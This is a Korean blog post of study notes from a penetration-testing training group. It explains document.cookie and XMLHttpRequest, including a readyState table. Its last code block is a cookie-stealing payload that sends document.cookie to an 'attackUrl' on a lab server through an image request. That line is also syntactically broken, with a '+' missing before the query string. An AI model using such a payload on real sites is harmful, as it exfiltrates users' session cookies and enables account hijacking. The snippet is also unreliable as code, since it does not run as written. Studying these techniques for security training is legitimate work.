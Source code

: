 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[JS] document.cookie, XMLHttpRequest"
excerpt: "모의해킹 취업반 스터디 7기 4주차"

date: 2024-11-12
last_modified_at: 

tags: [JS]
---
```


# document.cookie

``` js
let cookie = document.cookie;
console.log(cookie);
```

# XMLHttpRequest
XMLHttpRequest (XHR) 객체는 서버와 상호작용할 때 사용한다.
XHR을 사용하면 페이지의 새로고침 없이도 URL에서 데이터를 가져올 수 있다.

## readystatechange
readyState 속성이 바뀔 때마다 발생한다.
onreadystatechange 속성으로도 수신할 수 있다.

### XHR.readyState
XHR.readyState property returns the state an XHR client is in. An XHR client exists in one of the following states:
<table>
    <thead>
        <tr>
            <td>Value</td>
            <td>State</td>
            <td>Description</td>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>0</td>
            <td>UNSENT</td>
            <td>Client has been created. open() not called yet.</td>
        </tr>
        <tr>
            <td>1</td>
            <td>OPENED</td>
            <td>open() has been called.</td>
        </tr>
        <tr>
            <td>2</td>
            <td>HEADERS_RECEIVED</td>
            <td>send() has been called, and headers and status are available.</td>
        </tr>
        <tr>
            <td>3</td>
            <td>LOADING</td>
            <td>Downloading; responseText holds partial data.</td>
        </tr>
        <tr>
            <td>4</td>
            <td>DONE</td>
            <td>The operation is complete.</td>
        </tr>
    </tbody>
</table>

``` js
let http = new XMLHttpRequest();
let url = "http://192.168.0.8:1018/4th/cookie.php";

http.open("GET", url);
http.send();
http.onreadystatechange = (e) => {
    console.log("http.responseText: ")
    console.log(http.responseText);
}
```

``` js
let cookieData = document.cookie;
let attackUrl = "http://192.168.0.8:1018/4th/cookie.php";
let img = new Image().src = attackUrl "?" + cookieData;
```

# 참고
* [XMLHttpRequest](https://developer.mozilla.org/ko/docs/Web/API/XMLHttpRequest)
* [XMLHttpRequest: readyState property](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/readyState)
* [이미지 객체](https://inpa.tistory.com/entry/JS-%F0%9F%93%9A-%EC%9E%90%EB%B0%94%EC%8A%A4%ED%81%AC%EB%A6%BD%ED%8A%B8-%EC%9D%B4%EB%AF%B8%EC%A7%80-%EA%B0%9D%EC%B2%B4-%EC%82%AC%EC%9A%A9%EB%B2%95)
